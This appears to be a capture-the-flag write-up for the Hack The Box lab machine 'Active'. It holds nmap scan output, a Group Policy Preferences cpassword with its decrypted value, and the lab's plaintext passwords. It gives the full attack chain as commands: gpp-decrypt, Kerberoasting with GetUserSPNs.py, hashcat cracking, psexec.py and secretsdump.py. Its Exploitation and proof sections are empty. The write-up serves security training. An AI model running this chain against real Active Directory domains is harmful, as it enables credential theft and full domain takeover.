

# Summary


## about target

tip:  10.129.7.228

hostname:  Active

Difficulty:  Easy


## about attack

+ Smbshare, group.xml  gpp-decrypt
+ kerberoasting and hash crack.


**attack note**

```bash
Active / 10.129.7.228

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-30 14:00:17Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3032/tcp  closed redwood-chat
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
4901/tcp  closed flr_agent
5722/tcp  open   msrpc         Microsoft Windows RPC
9389/tcp  open   mc-nmf        .NET Message Framing
25279/tcp closed unknown
27871/tcp closed unknown
36006/tcp closed unknown
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open   msrpc         Microsoft Windows RPC
49153/tcp open   msrpc         Microsoft Windows RPC
49154/tcp open   msrpc         Microsoft Windows RPC
49155/tcp open   msrpc         Microsoft Windows RPC
49157/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open   msrpc         Microsoft Windows RPC
49169/tcp open   msrpc         Microsoft Windows RPC
49173/tcp open   msrpc         Microsoft Windows RPC
49174/tcp open   msrpc         Microsoft Windows RPC


---- interesting 

active.htb\svc_tgs:GPPstillStandingStrong2k18
administrator:Ticketmaster1968

---- Local enum 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

active.htb\svc_tgs:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

crackmapexec smb $tip  -u svc_tgs -p GPPstillStandingStrong2k18 --shares

ldapsearch -H ldap://$tip:389 -D 'svc_tgs' -w 'GPPstillStandingStrong2k18' -x -b "DC=active,DC=htb" '(Objectclass=user)' samaccountname | grep -i samaccountname

GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip $tip -request

hashcat -m 13100 -a 0 krbtgt.hash /usr/share/wordlists/rockyou.txt

psexec.py administrator:Ticketmaster1968@$tip

secretsdump.py  active/administrator:Ticketmaster1968@$tip


```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-30 14:00:17Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3032/tcp  closed redwood-chat
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
4901/tcp  closed flr_agent
5722/tcp  open   msrpc         Microsoft Windows RPC
9389/tcp  open   mc-nmf        .NET Message Framing
25279/tcp closed unknown
27871/tcp closed unknown
36006/tcp closed unknown
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open   msrpc         Microsoft Windows RPC
49153/tcp open   msrpc         Microsoft Windows RPC
49154/tcp open   msrpc         Microsoft Windows RPC
49155/tcp open   msrpc         Microsoft Windows RPC
49157/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open   msrpc         Microsoft Windows RPC
49169/tcp open   msrpc         Microsoft Windows RPC
49173/tcp open   msrpc         Microsoft Windows RPC
49174/tcp open   msrpc         Microsoft Windows RPC

```


# Exploitation





## proof

```bash


```


